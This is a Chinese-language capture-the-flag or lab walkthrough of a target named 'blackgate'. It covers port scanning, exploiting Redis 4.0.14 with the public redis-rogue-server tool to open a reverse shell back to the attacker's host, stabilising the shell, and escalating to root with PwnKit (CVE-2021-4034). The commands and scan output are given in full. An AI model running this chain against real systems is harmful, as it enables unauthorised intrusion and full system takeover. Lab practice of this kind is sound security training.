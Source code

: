 ## 掃 port
```bash
rustscan -a <target_ip> --ulimit 5000
```
```shell
[~] Automatically increasing ulimit value to 5000.
Open 192.168.234.176:22
Open 192.168.234.176:6379
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:30 EDT
Initiating Ping Scan at 06:30
Scanning 192.168.234.176 [4 ports]
Completed Ping Scan at 06:30, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 06:30
Completed Parallel DNS resolution of 1 host. at 06:30, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 06:30
Scanning 192.168.234.176 [2 ports]
Discovered open port 6379/tcp on 192.168.234.176
Discovered open port 22/tcp on 192.168.234.176
Completed SYN Stealth Scan at 06:30, 0.10s elapsed (2 total ports)
Nmap scan report for 192.168.234.176
Host is up, received reset ttl 61 (0.075s latency).
Scanned at 2025-08-28 06:30:55 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 61
6379/tcp open  redis   syn-ack ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
## 分析
可以看到這台靶機開了 22/ssh 跟 6379/redis 兩個 port。  
我的想法是我會先看看 6379 的服務。
```shell
└─$ nmap -sV -sC -T4 192.168.234.176 -p 6379 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:33 EDT
Nmap scan report for 192.168.234.176
Host is up (0.075s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.68 seconds
```
version 4.0.14 , 有點問題  
可以去 google 看看有沒有什麼 exploit  
結果發現了 [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)  
試用看看  
```shell
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
```
```python
python redis-rogue-server.py --rhost <target_ip> --lhost <local_vpn_ip> --lport 8888
```
他就會問你要互動式的 shell 還是 rev shell  
這邊選 rev shell 然後記得要 nc local 就有 rev shell 了
用以下指令獲得穩定 shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 提權
接下來是提權的部分  
可以先用 LinPEAS 掃看看
發現有 PwnKit 可以用
```shell
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```
就用 PwnKit 看看
```shell
prudence@blackgate:/tmp$ chmod +x PwnKit
chmod +x PwnKit
prudence@blackgate:/tmp$ ./PwnKit
./PwnKit
root@blackgate:/tmp# 
```
GET ROOT !